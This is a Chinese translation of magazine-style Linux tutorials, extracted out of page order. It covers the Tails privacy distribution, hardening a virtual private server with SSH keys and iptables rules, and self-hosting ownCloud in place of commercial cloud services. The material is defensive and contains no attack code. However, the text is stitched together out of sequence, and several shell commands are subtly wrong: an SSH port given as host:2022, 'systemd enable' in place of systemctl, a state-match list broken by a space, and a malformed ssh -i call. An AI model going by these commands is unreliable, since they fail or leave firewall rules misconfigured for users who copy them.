你还会找到 `KeePassX` 密码管理器、带 `OTR` 插件的 `Pidgin` 即时通讯客户端以及可用于发送 `GPG` 加密邮件的 `Claws` 邮件客户端。该发行版使用 `Gnome` 的磁盘工具来创建加密卷。

`Tails` 还包含虚拟键盘以保护你免受键盘记录器的侵害。`Nautilus` 文件管理器配备了扩展，可安全地擦除文件并确保没有人能从可用磁盘空间中恢复已删除的文件。正如我们之前指出的，在线时完全匿名是相当困难的。但使用这里介绍的工具，单独使用或更好的是组合使用，你可以在很大程度上隐藏你的身份，并保护自己免受秘密政府机构或盈利性公司运营的数据挖掘系统的侵害。

## 切换发行版

如果你担心隐私，你应该放弃常规发行版并使用专门设计用于保护隐私的发行版。它们不仅缺少侵犯隐私的功能，例如 `Ubuntu` 的 Amazon 镜头，还包含这里介绍的许多工具。

基于 Debian 的 `Tails`（The Amnesic Incognito Live）发行版从 RAM 运行，并确保即使有可用交换分区也不使用它。关闭 `Tails` 时，它还会安全地擦除 RAM 以清除所有使用痕迹。`Tails` 采用 `Gnome 2` 桌面，但也提供伪装桌面以模仿 `Windows XP` 的选项。该发行版包含 `Tor Browser Bundle`，其基于 `Iceweasel` 的 Tor 浏览器包含 `Https Everywhere`、`NoScript`、`Cookie Monster`、`Adblock Plus` 等隐私增强插件。


不，我们没有错误地使用 Windows XP 截图。这是伪装的 Tails，这样你就可以在网吧中使用它而不引起好奇。

## 设置一个安全的 VPS


### 在我们给你讲解虚拟私有服务器安全之前，请先放下安装 LAMP 堆栈的手。

虚拟服务器很便宜。事实上，在满足一些使用前提下，你甚至可以从亚马逊免费获得一台，而拥有自己的虚拟服务器是学习远程管理面向互联网的机器所带来的所有责任、陷阱和街头信誉的绝佳方式，而无需担心硬件故障和高昂的服务器账单。

除了亚马逊的免费使用层级之外，最便宜的虚拟机运行在被称为操作系统级虚拟化技术之上。最典型的例子是 `OpenVZ`，它运行一个经过修改的 Linux 内核，该内核由所有访客操作系统共享。`OpenVZ` 仅支持 Linux 访客，但你又为什么想要其他东西呢？

> "Hypervisor 这个词与操作系统曾经被称为 supervisors 的事实有关。"

`OpenVZ` 接近于托管式（Type 2）hypervisor 的例子，因为它运行在常规操作系统内部。然而，纯粹主义者会争辩说它并没有真正进行虚拟化，而是容器化——更类似于监督一堆 chroot 环境而不是真正的操作系统。顺便说一下，hypervisor 这个词的词源与操作系统曾经被称为“supervisors”有关。因此，hypervisor 就是 supervisors 的主管。

如果你需要更高级别的访客隔离，那么你应该将注意力转向裸金属（或 Type 1）hypervisor，例如 `VMware` 或 `Xen`。这种模型使你的访客操作系统能够运行自己的内核，因此你可以运行任何你喜欢的东西。hypervisor 本身非常精简，并处理所有低级硬件操作。

为了让访客操作系统能够使用，控制域（`dom0`）需要在 hypervisor 之上运行。这是一个运行 Xen 启用内核的特权虚拟机，它管理所有较小的访客（非特权域）并为它们提供与硬件交互的接口。Linux 内核支持 Xen，但也可以使用 NetBSD 或 OpenSolaris 作为控制栈。我们在这里也应该提到 `KVM`，它出色地模糊了 Type 1 和 Type 2 之间的界限。一旦加载 `KVM` 模块，主机操作系统就变成了一个 hypervisor：虚拟化程序，例如 `Qemu` 就可以利用它来运行与主机 CPU 架构兼容的任何操作系统。事实上，`Qemu` 可以虚拟化 x86、PowerPC 和 S/390 访客，但在模拟外来架构时会有性能成本。访客分为两类：

- 半虚拟化（PV）

  - 这需要一个 PV 感知的内核，因此访客知道它运行在虚构的硬件上。

- 硬件辅助虚拟化（HVM）

  - 半虚拟化的对应物，HVM——或全虚拟化——需要具有虚拟化扩展的 CPU，这减轻了通过模拟 BIOS 和其他硬件来欺骗访客操作系统的性能损失。为了进一步复杂化，完全虚拟化的访客可以通过所谓的 PV-on-HVM 驱动程序进行部分半虚拟化，以便加速 I/O 并引入灰色区域。

无论你选择哪条路径，在快速轻松的信用卡支付后，你将获得一个主机名/IP 地址和密码。然后你就可以使用完整的 root 权限通过 `ssh` 登录到你的新设备：

```bash
$ ssh root@host
```

有一些初始事项需要处理，就像你在实际机器上安装新操作系统时一样。其中一些可能已经为你完成——这取决于你使用的镜像所投入的精力程度。因此你应该检查 `/etc/hostname`、`/etc/locale.gen`、`/etc/hosts` 等并设置你的时区。有时最好将其设置为 UTC，因为这更符合整个虚拟的性质：

```bash
$ ln -sf /usr/share/zoneinfo/UTC /etc/localtime
```

> 椭圆曲线加密如此先进，以至于你可以使用更短的密钥长度（256、384 和 521 位，而 RSA 为 1,024、2,048、3,072 或 4,096）。

现在你应该设置一个普通用户，因为一直以 root 身份运行并不是一个好主意：

```bash
$ useradd -m -G wheel user
```

用你喜欢的用户名替换 `user`。在这里我们将自己添加到 `wheel` 组，这让我们可以使用 `su` 成为 root。如果你更愿意使用 `sudo`，那么 `-G wheel` 部分就不是必要的——相反你需要使用 `visudo`。

### 保护安全 Shell

虽然你可能记忆力很好并且有安全的密码，但最好更进一步，创建一个密钥对用于 `ssh` 身份验证并完全禁用密码登录。公钥存储在服务器上，你应该将私钥保存在安全的地方并且最好不要复制它。如果你丢失了它，大多数 VPS 会允许你通过串行控制台登录并修复问题。你可以在本地机器上通过运行以下命令生成密钥对：

```bash
$ ssh-keygen
```

系统会提示你输入私钥的文件名，然后再次提示输入密码短语。如果你预计会有很多不同的密钥用于不同的服务器，那么将默认文件名更改为包含相关主机名是个好主意。否则，默认的 `~/.ssh/id_rsa` 可能就足够了。公钥将在同一位置生成，并带有 `.pub` 后缀。请注意与密钥关联的漂亮随机艺术图像：如果你在任何时候比较密钥，这些图像会很有用。默认情况下，`ssh-keygen` 生成一个 2,048 位 RSA 密钥对，这对于除最偏执者之外的所有人都足够好。当然也有很多选项，因此你也可以使用以下命令生成一个 521 位椭圆曲线密钥对：

```bash
$ ssh-keygen -t ecdsa -b 521
```

然后你将密钥复制到服务器：

> “`Qemu` 可以虚拟化 x86、PowerPC 和 S/390，但会有性能成本。”



### 免责声明

廉价的 VPS 服务器绝对不是进行任何关键任务操作或存储任何敏感数据的明智选择。在本指南中我们进行了一些基础加固，但这并不能让你万无一失。明智的建议是不要运行你不需要/不理解的服务并定期更新一切。几乎可以说是设计使然，总会有一些捣乱的空间。攻击向量超出了虚拟机本身：`OpenVZ` 设置中的内核级漏洞可能会危及在那里运行的任何虚拟机，或者你的托管提供商的控制面板——或其任何基础设施——中可能存在漏洞。

也要意识到，在这个预算领域有许多昙花一现的类型，通常通过多层转售商过度销售设备。其中一些有精美的网站，但不要被欺骗。找一些评论并记住老话：如果听起来好得不像真的，那它可能就是真的。

也不要期望太多帮助。你必须通过 `cPanel` 或（对于更拮据的人）`SolusVM` 自己进行重装和重启。虽然大多数提供商都有技术支持的工单系统，但这通常仅限于硬件和操作系统镜像级别的帮助。不要指望他们告诉你为什么你的 PHP 脚本运行缓慢或如何设置 Apache。

## 如此 AWStats。如此多图表。非常全面。哇。

```bash
$ ssh-copy-id user@host
```

将 `user` 和 `host` 替换为你之前设置的用户和 VPS 地址。这会将你的公钥追加到远程主机上的文件 `~/.ssh/authorized_keys` 中。如果你确实需要复制你的私钥，请确保其权限（600）得到保留，否则你会因不安全的做法而受到谴责。

现在测试你刚烘焙好的密钥。如果你保留了默认文件名，则不需要任何特殊语法，否则你将不得不使用 `-i`（身份文件）选项：

```bash
$ ssh user -i ~/.ssh/private_key user@host
```

如果一切按计划进行，你应该会被提示输入私钥的密码短语并被允许登录。完成之后，我们可以在服务器上的 `sshd_config` 中更改以下行以禁用密码认证、旧的 v1 协议以及除 `user` 之外的任何人登录，并可选择将端口从默认的 22 更改：

`Port 2022`

`Protocol 2`

`PasswordAuthentication no`

`AllowUsers user`

现在我们重启 SSH 服务器。如果你使用的是可靠的 Sysvinit 脚本，这只需成为 root 并运行命令

```bash
$ /etc/init.d/sshd restart
```

或对于 Systemd：

```bash
$ systemctl restart sshd
```

现在唯一能登录的人是拥有我们密钥文件的人。服务器现在也在不同的端口上运行，这可能会阻止一些脚本小子，但也意味着你必须相应地指向你的 SSH 客户端：

```bash
$ ssh user@host:2022
```

你可以使用 `ssh-agent` 在本地会话期间保持此密钥解锁，这是一个方便的省力设备，尽管它会带来一点隐私成本。这可以通过以下方式实现：

```bash
$ ssh-add ~/.ssh/private_key
```

如果你正在运行某种正规的桌面环境，或以其他方式弄清楚如何在你的系统上塞入 Gnome Keyring 之类的东西，那么你甚至可以在登录时自动解锁并将你的密钥加载到内存中。同样，这很方便但可能不安全。


值得考虑通过 SSH 连接显式为你或你的授权用户运行的任何服务进行隧道传输。例如，如果你正在运行 VNC 服务器，那么与其将其暴露给外部世界，不如将其配置为仅在本地回环地址上监听。VNC 的默认端口是 5900，因此当我们从本地机器 `ssh` 时，我们像这样将此端口转发到 5901：

```
$ ssh -L 5901:localhost:5900 user@host:2022
```

> “考虑通过 SSH 对你显式运行的服务进行隧道传输。”

冒号后的部分相对于远程机器——我们将其端口 5900 转发到我们的 5901。只要在服务器的 `hosts` 文件中正确设置了 `localhost` 别名，你现在就可以告诉 VNC 客户端连接到你本地机器的 5901 端口（或在 VNC 用语中为 display :1）。一切顺利的话，你应该有一个可用的 VNC 会话，并且会有那种模糊温暖的感觉，因为你所有的点击和按键都通过加密通道发送。

## 完全锁定

过滤传出数据包真的只适用于偏执狂，但如果锡箔帽要求如此，这里是你在大规则或 `REJECT` 规则之前可能想要允许的流量的快速总结。

| Loopback traffic | Similar to incoming rules, use `-o -j ACCEPT` |

| DNS | TCP and UDP on port 53. |

| NTP | UDP port 123 |

| HTTP(S) | TCP on ports 80 & 443 |

| FTP | TCP on port 21 (Active FTP will initiate an incoming connection from the server’s port 20, but our established/related rule on the INPUT chain should take care of that) |

| git | TCP 9418 |

| ping | ICMP use `--icmp-type 8` (echo) as in incoming rules |

如果你真的想满足终极控制狂系统管理员的刻板印象，那么可以记录 `iptables` 拒绝的所有数据包，但这会很快导致日志文件过大和磁盘满，这对你来说会比有人扫描你的机器寻找不存在的 SMB 共享更成问题。

## 玩火(墙)

设置基于 `iptables` 的防火墙是我们下一个挑战。`iptables` 程序根据规则过滤数据包，这些规则存在于名为 `filter` 的表中，并分为三个链：`INPUT` 用于传入数据包，`OUTPUT` 用于传出数据包，`FORWARD` 用于更高级的路由，我们不予关心。同样，其他表管理 `nat`。每个链都有一个默认策略，通常是接受所有数据包。除了接受它们之外，我们还有目标 `REJECT` 来明确拒绝连接，以及 `DROP` 来静默忽略

## 安全的 VPS

数据包。后者有利于规避检测，但对诊断问题很烦人。你可以通过以下命令以 root 身份运行来检查当前的 `iptables` 规则：

```
$ iptables -L
```

让我们从一张白纸开始，通过清除所有当前生效的规则（即使实际上没有）以及任何额外的链：

```
$ iptables -F
$ iptables -X
```

虽然在这里将一切都锁定很诱人，而且过于宽松的防火墙确实不是好主意，但承认连接建立和数据包过滤比你想象的要复杂是有益的。毕竟，如果你把自己锁在自己的机器之外，那会非常尴尬。

我们前两个实用的规则处理本地接口上的流量。很多程序都是通过这种方式相互通信的，但我们不允许外部世界访问 `lo`。第三条规则方便地允许所有当前已建立的连接以及由此产生的任何进一步连接。这应该能让你少一些心痛——你通常希望让来自你所连接服务的包进入。

```
$ iptables -A INPUT -i lo -j ACCEPT
$ iptables -A INPUT ! -i lo -d 127.0.0.0/8 -j REJECT
$ iptables -A INPUT -m state --state ESTABLISHED, RELATED -j ACCEPT
```

现在我们确保传入的 SSH 连接不会被简单地压制：

```
$ iptables -A INPUT -p tcp --dport 2022 -j ACCEPT
```

`-A` 选项表示我们将此规则追加到输入链中，以便在所有其他规则之后处理。我们也可以使用 `-I INPUT` 将此规则插入到链的顶部。



打开日志后，我们可以看到我们正在忽略的周围所有嘈杂的广播。

另外，让你的服务器接受并随后响应 ping 请求也很不错：

```
$ iptables -A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
```

如果你运行 Web 服务器，那么你将希望允许 http 和 https 流量：

```
$ iptables -A INPUT -p tcp --dport 80 -j ACCEPT
$ iptables -A INPUT -p tcp --dport 443 -j ACCEPT
```

现在拒绝所有其他传入数据包应该是安全的：

```
$ iptables -A INPUT -j REJECT
```

每个链的规则按顺序处理，因此任何与之前规则都不匹配的传入数据包都会被拒绝。

我们必须保存 `iptables` 规则并确保在你重启时/如果重启时它们会被恢复。你如何做到这一点取决于你的发行版/初始化系统。对于某些系统，`iptables-save` 命令会将当前规则输出到 stdout，而对于 Systemd，`iptables.service` 会从 `/etc/iptables/iptables.rules` 加载规则。因此以下操作就足够了：

```
$ iptables-save > /etc/iptables/iptables.rules
$ systemd enable iptables
```

> “`DROP`：有利于规避检测，但对诊断问题很烦人。”

对于 Debian，标准方法是按上述方式保存规则，然后创建文件 `/etc/network/if-pre-up.d/iptables`，其内容为：

```
#!/bin/sh
/sbin/iptables-restore < /etc/iptables/iptables.rules
```


如果你想保持理智，就不要试图理解 EC2 实例的定价结构。

希望，你被入侵的几率现在已经降低了。从现在开始你做什么完全取决于你——什么都不做是毫无意义的，但你的 VPS 提供商可能会赞同。例如，让你的 Dropbox 文件夹在服务器上可访问有时很方便，但另一方面这可能会导致专有的寒意，那么为什么不设置一个 OwnCloud 服务器呢？见第 79 页？或者订阅 Linux Format 并学习如何设置一个简单的 Nginx（见档案，LXF188）或 Lighttpd Web 服务器？然后让它使用出色的 AWStats 提供使用统计？无论你做什么，都要牢记安全，但如果你被黑了，重新开始是微不足道的。

## 逃离

Google

And Facebook » Twitter » Flickr + more!

将你的个人数据从想要翻阅你的电子邮件、照片和朋友并接管你生活的公司中解放出来。

Google Search

I'm getting out of here

我们越来越多地使用云。随着互联网连接变得更快、更可靠，将所有数据在所有设备上可用带来的便利变得越来越有吸引力。然而，使用云服务也有缺点，特别是那些免费的服务，它们仍然必须以某种方式盈利。在信任第三方保管你的数据之前，你会想仔细考虑许多合理但令人恐惧的问题，我们已在下面列出。答案，正如你将在本专题中发现的那样，通常不是你想听到的。

- » Privacy 你的数据是存储的还是被挖掘用于广告和营销目的？

- » Reliability 你能确定你使用的服务将始终可用吗？

你对数据的安全性有什么保证，你能做些什么来改善这一点？

- » Security 你的数据是否加密？谁有权访问加密密钥？你的数据可能被黑客攻击或窃取吗？

> “你对数据的安全性有什么保证？”

- » Continuity 云提供商是否可以出于任何原因暂停或取消你的账户，甚至可能丢失所有数据？

- » Performance 你的互联网连接是否足够快，可以在没有延迟的情况下使用你想要的服务？

- » Copyright 你上传的内容归谁所有？你的照片可以在未经你同意的情况下被出售或发布吗？


虽然大型公司的安全和备份策略可能比你自己的设计和实施得更好，但你仍然有关于他们可以用你的数据做什么的问题。你可能会觉得允许他们解析电子邮件以提供更相关的广告，而你可能忽略或不忽略，这对免费服务来说是公平的价格。另一方面，你可能希望保持私人电子邮件的私密性，如果你使用电子邮件进行业务，你的担忧甚至更多。你不仅对自己的数据负责，还对你交易的组织的资料负责。你可能还担心将私人信息保留在你的私人网络内，不仅是为了商业秘密，也是为了数据保护和保护组织所处理的人的隐私。

另一个严重的问题是，云服务可能在与你不同的国家运营，因此受不同的法律框架和政策约束。即使你对所在地感到满意，也没有任何东西能阻止云服务提供商出于经济或政治原因——或仅仅是为了避税——将所有东西迁移到另一个国家的数据中心。

## 对我们一套法律，对他们另一套

谷歌因其隐私做法受到了大量批评（更不用说它在英国似乎认为缴纳税款是可选的），但谷歌并不是唯一这样做的，也不是最严重的违规者。谷歌只是知名度最高的提供商。值得称赞的是，它相当公开地使用你的数据赚钱——在我们注册 Gmail 账户之前，我们大多数人都知道谷歌会阅读我们的电子邮件。

尽管如此，云服务的概念仍然有吸引力且方便；那么我们如何解决这种矛盾？答案很简单：自己运行云。这样，你就能获得从多个平台和位置轻松访问数据的便利，同时保留对数据的控制权。现在，我们并不是建议你建立自己的数据中心来实现自己的 Gmail、Dropbox 和 Facebook，但对于家庭或小型企业运营来说，你不需要那些组织的规模。

云基本上是建立在网络之上的，而 Linux 在提供网络服务方面有着一定的记录。你只需要一台运行标准 `LAMP`（Linux、Apache、MySQL、PHP）堆栈的 Linux 计算机，就可以在几分钟内从以下页面安装大部分软件。这就只剩下两个问题需要回答：什么和在哪里。取决于你想做多少，硬件可以是一个小型服务器机箱，如果你一直将其保持开机状态，你的台式电脑也可以——可能需要——甚至可以是真正小巧且节能的东西，比如 `Raspberry Pi` 或其中一个即插即用电脑。任何这些设备都会连接到你的本地网络，因此在你的 LAN 内使用时速度会非常快。它们也可以从外部访问，但随后你就会遇到互联网连接上传速度的问题。大多数家庭互联网连接都是不对称的，下载速度远高于上传速度。但从外部世界访问数据算作上传，因此会更慢——并不算异常，但需要了解，特别是如果你想支持多个用户。如果你要从全世界提供访问权限，生活会容易得多，如果你的互联网提供商能够为你提供静态 IP 地址，否则你将需要一个动态 DNS 服务。

## 你需要什么？

另一种选择是虚拟专用服务器（`VPS`）。这是在数据中心虚拟机上运行的 Linux 发行版，因此你能获得此类环境提供的快速速度的好处，但它仍然是你的系统，你控制包含的软件，以及使用的任何密码和加密密钥，并且提供商无需能够读取你的任何数据。你也可以为此使用网络主机，因为所有内容都在 `LAMP` 堆栈上运行，但这会减少保护数据的选项。无论你选择什么硬件，真实的还是虚拟的，你都需要完整的 `LAMP` 安装。如果你将一台机器专门用于此任务，最简单的方法是在面向服务器的发行版上安装，例如 `Ubuntu Server`，或类似 Debian 并在安装时选择 Web 服务器选项。如果你使用的是现有系统，安装 `Apache`、`MySQL` 和 `PHP` 应该就足够了。如果你从发行版的包管理器安装我们讨论的软件，它会为你处理这些。



演示站点 `http://demo.owncloud.org` 让你在安装 `ownCloud` 之前先试用一下。



桌面同步客户端让你设置多个同步任务依次运行——你不限于一个目录。



`.tar` 归档是安装 `ownCloud` 服务器的经典方式。它提供了服务器和所有必要的第三方 PHP 库。

- 下载 Unix/Mac OS（`.tar.bz2`）或 Windows（`.zip`）归档。
- 使用 `MD5` 校验和检查包完整性。Unix/Mac OS / Windows。
- 按照 `ownCloud` 管理员手册的安装章节操作

注意：为了接收有关更新和安全问题的通知，我们建议订阅我们低流量的公告邮件列表。

该网站提供两种安装 `ownCloud` 的方式，其中最简单的方法是下载并解压一个 tarball——除非你的发行版为它提供了软件包。

## 云存储

如果你想单干，有一个个人免费软件替代方案，可替代 `Dropbox`、`Flickr` 以及许多其他在线服务。

云计算是当前的一个流行词，本质上是指通过互联网使用远程计算机存储和软件。`Gmail`、`Dropbox`、`Flickr`、`Tumblr` 以及托管在 `Blogspot` 或 `WordPress` 上的个人博客只是当今流行的云计算服务中的一些例子。尽管所有这些服务都很方便，但云计算存在一个大问题，至少在上述实现中如此。一方面，你付费（以个人数据、注意力或金钱的形式）让别人代表你管理硬件和软件。另一方面，所有这些服务以及你自己的内容仅在该单一提供商仍有能力并愿意按照其自己的条款和条件让你保持在线的情况下才在线可用。

解决这个问题的办法是创建自己的云：一个便携的、基于网络的环境，由免费软件构成；它几乎可以在任何地方运行，从基础的网络托管账户（包括一些免费的）到你自己的 Linux（虚拟）服务器。本教程解释了如何使用 `OwnCloud`（`http://owncloud.org`），这是该领域最有前景的免费软件项目之一，如今已在柏林举办了自己的年度会议。

为了激发你的兴趣并提高你的动力，本教程分为两个主要部分。第一部分介绍终端用户可以用一个已存在的 `OwnCloud` 实例做什么。第二部分解释如何安装、配置和管理此类实例。

`OwnCloud` 的基本服务是在线文件存储、日历和通讯录的混合体。可以直接从桌面访问和同步 `OwnCloud` 文件夹。同一安装可以托管许多独立用户。从版本 4.5 开始（我们在此描述的版本，`OwnCloud` 版本发布迅速，见第 78 页，了解最新主要版本的提示，包括自签名证书），`ownCloud` 支持文件版本控制以及对主流存储服务的统一访问和同步接口，例如 `Dropbox` 或 `Google Drive`。如果这还不够，你可以通过多个可选应用程序扩展其功能。

一个基本的 `ownCloud`（图示，左下）是保存和共享你的文件、图片、音频文件、日历和联系人列表的地方，可以从任何浏览器或任何计算机或智能手机在线访问。文件管理器包括 OpenDocument 和 PDF 查看器，以及纯文本文件的编辑器。图片可以逐个查看，或作为全屏幻灯片放映，而音乐收藏支持音频流。

联系人和日历功能并非最先进，但具有所有基本功能，并且可以导入 Google 联系人或在地址簿中为你的活动创建自定义字段。可以定义多个独立日历，或与同一 `OwnCloud` 的其他用户共享。第一次打开时，日历会询问你的位置以设置相应的时区，但你可以更改它。只要记住，如果你没有正确设置，你的 `OwnCloud` 日历和智能手机或桌面计算机中的日历将无法相互同步。

即使自动同步不可行，你也可以以标准 `iCal` 格式从你的 `ownCloud` 账户导入和导出单个事件或整个日历。任何




> > `OwnCloud` 基础包：文件存储、在线音乐和图片库、日历和地址簿，全部在同一个浏览器窗口中。



标准 `OwnCloud` 日历 – 简单，但实用且可轻松与桌面或移动设备同步。

体面的日历应用程序，包括任何智能手机上的应用程序，如今都可以毫无问题地管理它。

## 应用程序容器

除此之外，`OwnCloud` 还有另一个功能，目前使用率仍然很低，但我们谦虚地认为它具有巨大潜力：`OwnCloud` 天生就是一个容器，可以为完全独立的、基于 `FOSS` 的第三方在线服务提供统一的访问点。`OwnCloud` 管理员可以通过安装 `http://apps.owncloud.com` 上列出的众多可选应用程序，以多种方式扩展其服务。

我们将重点介绍其中一些应用程序的少量选择，只是为了介绍一般概念。例如，你可以在 `ownCloud` 中使用以下三个不同的应用程序保存笔记。其中最简单的一个，也是最容易与移动设备同步的，称为 `Notes`，你可以用它将任务描述、待办事项列表和类似内容保存为普通的纯文本文件。`AllNotes` 支持基本的 HTML 格式和笔记标签。`OwnCloud Journal` 更进一步。你可以根据日期或时间范围对存储在其中的所有日记条目进行排序、过滤和搜索。内部，`Journal` 条目以 `OwnCloud` 日历中的记录形式保存，可以与其他用户共享。


当然，有 OwnCloud 应用可以做远不止保存笔记。主题管理器允许管理员只需点击几下即可更改整个网站的外观。还有一个用于 impress.js 在线幻灯片放映的播放器，以及一个同步器，可在所有计算机和账户之间保持相同的 Firefox 配置。有一个界面可以将加载到 ownCloud 的图片重新发布到 WordPress 博客。我们还认为许多用户可能会爱上基础的书签管理器（见底部，第 26 页）或 Shorty，这款 ownCloud 应用可让你通过多个外部 URL 缩短服务组织书签并共享它们。

然而，OwnCloud 的未来在于集成——为什么要重新发明任何可能的轮子，而不嵌入真正的轮子呢？例如，你可以看到这一类 ownCloud 应用的一个已在运行的示例（图示顶部，第 29 页），它使你能够登录到你的 Roundcube 账户并将其用作 OwnCloud 选项卡，而不是再开发另一个免费软件网页邮件客户端——这不是很棒吗？当然，所有这些都需要用户端进行一点简单的设置，

与封闭的云服务相比，这是一件好事！

从桌面访问 OwnCloud 通常可以从任何支持 WebDAV 协议的文件管理器进行——你只需告诉它加载配置面板中列出的 WebDAV URL。有关如何使用该 URL 与多个文件管理器配合使用的详细说明可在网上找到：`http://owncloud.org/support/webdav`。

## 从桌面使用 OwnCloud

无论文件管理器如何，都有 ownCloud 桌面客户端可将你计算机上的本地文件夹与在线账户中的文件夹保持不断同步，就像 Dropbox 那样。（官方网站列出了适用于 Linux、Windows（XP、Vista、7 和 8，32 位或 64 位）和 Mac OS X 10.5 或更新版本，以及 Intel 64 位的客户端）。

安装 Linux ownCloud 客户端并不困难——官方网站有一个面包屑导航，会引导你到合适的“一键安装”包，或为大多数流行发行版的二进制包提供相关仓库。我们在 Fedora 20 上加载了最新客户端，使用：

```
cd /etc/yum.repos.d/
wget http://download.opensuse.org/repositories/isv:ownCloud:desktop/Fedora_20/isv:ownCloud:desktop.repo
yum install owncloud-client
```

OwnCloud 可以由任何具有基本知识的人在没有特别问题的情况下安装和管理

用户方面，并且使用全新的 ownCloud 账户要做的第一件事就是点击左下角的齿轮图标。这将打开用户配置面板，在这里你可以找到或设置关键参数或执行重要操作。

你可以（并且必须！）设置的内容包括用于密码恢复的电子邮件地址，以及用户界面的语言。哦，别忘了复制 WebDAV URL 的值。如果在安装时启用了版本控制，你还将有能力取消你不再需要的旧文件版本。配置面板使每个用户能够将所有文件和数据作为一个 ZIP 文件下载，以一种格式，可以在另一个 ownCloud 安装中只需一次点击即可加载。试着对那种

## 你的文件大小是多少？

默认情况下，OwnCloud 限制了你可以通过网络界面上传的每个单个文件的大小（至少），为 512MB，这对于许多用户来说显然太小了。官方文档的整整一页都专门讨论了这个问题，但这里是其一句话总结：“你可以轻松地将该限制提高到你想要的任何值，只要你的网络托管提供商，如果你没有运行自己的服务器，允许这样做。这是因为，严格来说，提高文件大小限制可能就像在你的 PHP 配置文件中添加

```
<IfModule mod_php5.c>
php_value upload_max_filesize 4096M
php_value post_max_size 4096M
</IfModule>
```

或在单独的文件中添加一样简单。然而，这只有在 Web 服务器和 PHP 解释器都由其管理员配置为允许你玩这些把戏时才有效。详情请参阅 `http://bit.ly/HluLu`。

`LAMP`（Linux、Apache、MySQL、PHP）软件。基本上，如果你已经安装过 WordPress 或类似的软件包，你就已经具备掌握 OwnCloud 所需的所有技能了。而如果你还没有，也不用担心——它比看起来要容易得多。

在下载 OwnCloud 之前，有几件事需要做或检查。其中之一是你的 OwnCloud 将要存放的网络空间。OwnCloud 本身占用的空间非常小，但如果你想将其用作在线存储，最好从一开始就选择一个空间足够大的账户。接下来，除非你确定自己不会为放入 OwnCloud 的任何内容需要永久的网络地址，否则你应该购买一个域名。当然，OwnCloud 完全不需要域名也能正常工作，只是如果你将安装迁移到另一个服务器并使用不同的域名，所有旧的 URL——也就是指向你的在线图片库等的链接——将停止工作。这可能非常糟糕，也可能几乎无关紧要，具体取决于你的需求——由你决定。

我们还强烈建议在首次安装后，至少试用 OwnCloud 的所有功能一周，然后再向他人提供账户或发布你想要分享的文件的 URL。这样一来，在正式上线之前，你就可以自由地删除所有内容并使用不同的配置重新安装。

本文介绍的 OwnCloud 安装和技巧是在运行 Apache 的 CentOS 虚拟专用服务器上测试的。其他 Linux 发行版的说明可以在 `http://doc.owncloud.org` 上找到，但这里的几乎所有内容都可直接适用于任何支持 PHP 和 MySQL、PostgreSQL 或 SQLite 数据库的网络托管账户。主要例外是 Web 服务器和 PHP 配置。OwnCloud 网站为多种 Web 服务器提供了良好的文档，而不仅仅是 Apache。无论如何，请询问网络托管提供商他们使用的是什么服务器，最重要的是，他们是否有一些晦涩、不 yet 有文档记录的 PHP 设置可能会使 OwnCloud 更难配置（相信我们，这种情况可能会发生）。

## 选择数据库

在安装 OwnCloud 之前要做的最后一件事是选择它将使用的数据库。SQLite、MySQL 还是 PostgreSQL？第一个选择更简单易于处理和备份；SQLite 数据库只是一个 PHP 可以自行管理的单个文件，前提是安装了正确的库。

如果你选择 SQLite，OwnCloud 将在透明地创建数据库文件，该文件位于它存放文件的文件夹中。其他两个选择需要一个独立的 MySQL 或 PostgreSQL 服务器上的数据库和账户。这并不是什么大问题，因为许多基础的网络托管账户都包含一个 MySQL 数据库，或允许你每年支付少量费用添加一个。OwnCloud 文档建议对于拥有大量用户和/或大量同时访问的安装，使用 MySQL 或 PostgreSQL。

一些 GNU/Linux 发行版（请查看网站获取最新列表）提供 OwnCloud 二进制包，可使安装和升级变得轻松。然而，OwnCloud 不需要 Linux，而使用它的主要原因之一就是可移植性。因此，在本教程中，我们故意忽略了一些情况，只解释如何使用可以从网站下载的原始源代码进行操作。

OwnCloud 的安装程序与 WordPress、Drupal 以及许多其他基于 LAMP 的软件包的安装程序类似。首先，你将一些文件放入网络空间的专用文件夹中，然后从浏览器配置数据库和其他参数。专用文件夹应可由 Web 服务器写入，否则 OwnCloud 将无法创建其工作所需的一些文件夹。OwnCloud 网站提供了一个设置向导，虽然使“放置一些文件”这部分变得稍微容易一些，但可能不值得使用。要运行该向导，你必须将一个名为 `setup-owncloud.php` 的小型 PHP 文件上传到你的 OwnCloud 的未来位置（我们称之为 `myowncloud.example.com`），然后将浏览器指向 `http://myowncloud.example.com/setup-owncloud.php`。

